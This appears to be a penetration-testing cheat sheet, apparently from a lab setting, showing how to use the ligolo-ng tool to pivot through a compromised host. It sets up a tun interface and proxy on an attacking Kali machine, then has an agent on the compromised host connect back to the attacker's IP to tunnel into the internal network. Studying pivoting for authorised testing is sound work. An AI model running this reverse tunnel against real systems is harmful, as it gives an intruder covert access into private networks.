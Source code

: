 ## Set up a Ligolo Interface

On the attacking machine (e.g. Kali) create a tun interface called `ligolo`:

```bash
$ sudo ip tuntap add user kali mode tun ligolo
$ sudo ip link set ligolo up

```

## Run the Proxy with the Selfsign Option

On Kali, run the `proxy`:

```bash
./proxy -selfcert -laddr 0.0.0.0:443

```

## Connect to the Proxy via the Compromised Host

On target (Windows or Linux), run the `agent` or `agent.exe`:

```powershell
.\\\\agent -connect 192.168.45.236:443 -ignore-cert

```

Note: The IP used here points to our attacking machine (here: Kali VM).

We should get a notification on the `proxy` that the client has established a connection.

Select the session:

```powershell
ligolo-ng » session
```

Show the interfaces (on the attacker host):

```powershell
ligolo-ng » ifconfig
ligolo-ng » start
```

```bash
[Agent : CASTLE\\\\user@CLIENT01] » ifconfig
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:9e:e6:b8              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.75.243/24               │
└──────────────┴────────────────────────────────

```
